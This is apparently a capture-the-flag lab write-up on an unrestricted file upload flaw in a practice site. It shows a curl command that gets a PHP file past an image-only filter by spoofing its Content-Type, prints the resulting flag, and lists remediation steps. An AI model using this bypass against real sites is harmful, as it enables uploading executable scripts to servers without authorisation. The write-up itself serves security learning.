 # [WSTG-BUSL-08] Unrestricted File Upload

[Add image](http://192.168.56.101/?page=upload) contains a `<form>` element with attribute `enctype="multipart/form-data"` which specifies how the form-data should be encoded when submitting.

Only `jpeg` extension (not even `jpg`) is allowed to be upload.

<img width="1021" alt="image" src="https://user-images.githubusercontent.com/46742040/202015974-04c11238-a64c-472b-a20b-43f59046f518.png">

`cURL` let emulate a filled-in form using `-F` option and set `Content-Type` header.

```sh
┌──$ [~/42/2022/darkly]
└─> touch /tmp/test.php
┌──$ [~/42/2022/darkly]
└─> curl -s -X POST -F "Upload=Upload" -F "uploaded=@/tmp/test.php;type=image/jpeg" "http://192.168.56.101/?page=upload" | grep -oE "The flag is : [[:alnum:]]{64}"
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Remediation
The vulnerability that could occur if uploaded script files `php`, `asp`, `jsp`, etc... contains malicious code that can be executed. In order to prevent it:

- Restrict file types to only necessary ones
- Have at least some sort of filtering, content checking, and go through `whitelist` for uploaded file
- Remove all the control characters, or special charactres (i.e. `;`, `:` `<`, `>`, etc..) from the filenames
- Limit the filename, and file size
